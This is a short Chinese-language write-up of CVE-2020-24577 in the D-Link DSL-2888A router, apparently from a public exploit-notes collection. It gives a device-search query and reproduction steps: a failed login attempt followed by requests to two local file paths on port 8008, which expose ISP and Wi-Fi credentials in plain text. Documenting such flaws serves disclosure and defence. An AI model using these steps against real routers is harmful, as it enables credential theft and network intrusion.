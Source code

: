 # D-Link DSL-28881A 信息泄露 CVE-2020-24577

# D-Link DSL-28881A 信息泄露 CVE-2020-24577

## 漏洞描述

通过物理连接或无线访问建立与网络的连接后，恶意用户可以通过直接浏览以下URL来获取纯文本格式的Internet提供商连接用户名和密码，以及无线路由器的纯文本格式的用户名和密码

## 漏洞影响

```
D-Link DSL-2888A
```

## 网络测绘

```
body="DSL-2888A"
```

## 漏洞复现

登录页面输入任意密码建立连接



![](/images/202202162223056.png)

跳转到 http://xxx.xxx.xxx.xxx/page/login/login.html?error=fail 显示密码错误

访问下列两个连接

http://xxx.xxx.xxx.xxx:8008/tmp/cfg/lib_cfg_cfgcmd
http://xxx.xxx.xxx.xxx:8008/tmp/.nvram

![](/images/202202162223303.png)



- 连接Wifl或物理连接Wifi才能访问

